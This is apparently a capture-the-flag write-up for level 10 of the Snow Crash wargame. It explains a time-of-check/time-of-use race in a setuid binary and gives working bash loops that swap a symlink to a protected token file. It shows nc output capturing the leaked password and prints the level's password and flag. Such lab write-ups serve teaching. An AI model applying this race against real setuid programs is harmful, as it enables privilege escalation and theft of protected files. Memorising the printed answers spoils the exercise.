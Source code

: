 ## Level 10

We can see once again two files `token` and `level10`.

Obviously we can't read token, and we can execute `level10` passing it a file and an ip address!

As we can see in the [decompiled level10](./level10_decomp.c), it sends the content of the file we pass to the ip address through a socket.

We can use `nc` to capture this traffic. More specificaly, we can use `nc -l -k <ip> <port>` so that it keeps the connection alive while we spam it.

## Exploit

Speaking of spamming, the important part here are two syscalls in the executable:

```c
	iVar2 = access((char *)in_stack_00000008[1],4);
	// more blabla and checks
	iVar3 = open(pcVar6,0);
```

Access checks if the user executing the program could read the content of the file we pass as an argument, and open obviously tries to open it.
However, the fact that they are separated calls means one thing, there is a timing during which we can modify the file between `access` and `open`, abusing the first permission check.

### Our objective

We want the executable to check access on a file we created, so that we pass the check, then create a symlink from this file to the token for which we don't have access.

### How ?

Simply with two bash scripts:

The first one will take care of the file swapping thingy as such:

```bash
while [ 1 ]
do
        touch /var/crash/swap
        rm -rf /var/crash/swap
        ln -s ~/token /var/crash/swap
        rm -rf /var/crash/swap
done
```

And the second one which will spam our executable with the file we create until we have a wonderful result:

```bash
while [ 1 ]
do
        ./level10 /var/crash/testouille 10.14.6.1
done
```

It's simply bruteforcing and we can see the result on nc when we launch both scripts:

```bash
~/Documents/42/snow_crash/level10/res (main*) » nc -l -k 10.14.6.1 6969
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
.*( )*.
woupa2yuojeeaaed06riuj63c
```

And that's how we can trick our program to get read a new file between two calls!

## Password

woupa2yuojeeaaed06riuj63c

## Token

```bash
level10@SnowCrash:~$ su flag10
Password: 
Don't forget to launch getflag !
flag10@SnowCrash:~$ getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
flag10@SnowCrash:~$ 
```
